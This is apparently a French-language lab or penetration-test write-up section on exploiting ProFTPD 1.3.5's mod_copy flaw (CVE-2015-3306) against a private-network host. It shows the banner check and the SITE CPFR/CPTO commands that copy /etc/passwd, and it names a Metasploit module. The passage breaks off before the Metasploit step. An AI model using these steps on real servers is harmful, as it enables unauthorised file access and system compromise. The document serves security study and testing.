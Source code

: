 
---


### 4.7 🔹 FTP (ProFTPD 1.3.5 – mod_copy)

#### 🔎 Contexte
Le port **21/tcp (FTP)** exposait un service **ProFTPD 1.3.5**.  
Cette version est vulnérable au module **`mod_copy`** qui permet de copier des fichiers arbitraires depuis et vers le système.  
👉 Vulnérabilité référencée : **CVE-2015-3306**.

#### 🛠️ Exploitation

##### Étape 1 – Vérification du service
```bash
nc 192.168.1.55 21
```
Réponse du serveur :

![alt text](image-23.png)


##### Étape 2 – Test avec commandes `SITE`
ProFTPD autorisait les commandes spéciales `SITE CPFR` et `SITE CPTO`, confirmant la présence du module vulnérable.

```bash
SITE CPFR /etc/passwd
SITE CPTO /tmp/passwd.bak
```
✅ Réponse positive → le serveur a bien copié `/etc/passwd` → preuve d’arbitraire file copy.

##### Étape 3 – Exploitation avec Metasploit
Utilisation du module Metasploit **`unix/ftp/proftpd_modcopy_exec`** :

